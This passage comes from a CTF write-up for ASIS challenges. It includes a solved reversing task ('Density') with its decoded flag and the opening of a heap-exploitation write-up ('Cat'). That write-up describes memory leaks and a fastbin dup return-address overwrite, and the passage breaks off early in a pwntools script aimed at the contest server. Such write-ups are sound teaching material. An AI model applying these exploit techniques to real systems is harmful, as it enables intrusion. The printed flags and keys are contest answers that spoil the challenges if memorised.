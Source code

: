 Then you can trace this function and easily get the real secret key which is `sscsfuntnguageisfunsu`
### Density (sces60107)

In this challenge you will get a binary and a encrypted flag.

This chllenge is not difficult at all. The binary name is "b64pack".

You can just try base64
```
$ base64 short_adff30bd9894908ee5730266025ffd3787042046dd30b61a78e6cc9cadd72191 
O++h+b+qcASIS++e01d+c4Nd+cGoLD+cASIS+c1De4+c4H4t+cg0e5+cf0r+cls+d++gdI++j+kM
+vb++fD9W+q/Cg==
```

There is string while looks like flag
`ASIS++e01d+c4Nd+cGoLD+cASIS+c1De4+c4H4t+cg0e5+cf0r+cls+d++gdI++j+kM
+vb++fD9W+q/Cg==`

We still need to reverse the binary. You can divide this binary into three part.

The first part:
`input=randomstr+input+flag`

The second part:
```python
newinput=""
for i in input:
  if i in "@$_!\"#%&'()*+,-./:;<=>?\n":
    newinput+="+"+chr(ord('a')+"@$_!\"#%&'()*+,-./:;<=>?\n".index(i))
  elif i in "[\\]^{|}~`\t":
    newinput+="++"+chr(ord('a')+"@$_!\"#%&'()*+,-./:;<=>?\n".index(i))
  else:
    newinput+=i
```
The third part:
```
output=newinput.decode("base64")
```

Now you know how to reconstruct the flag.
The flag is `ASIS{01d_4Nd_GoLD_ASIS_1De4_4H4t_g0e5_f0r_ls!}`
## pwn

### Cat (kevin47)

* I am a idiot that can't think, so I used the most hardcore way :)
* Use name and kind to leak heap, libc, stack, canary
* fastbin dup attack to stack twice in order to overwrite return address

```python
#!/usr/bin/env python2

from pwn import *
from IPython import embed
import re

context.arch = 'amd64'

r = remote('178.62.40.102', 6000)

def create(name, kind, age, nonl=0, stack=''):
    if name == '':
        r.recvrepeat(1)
    if stack:
        r.send(stack)
    else:
```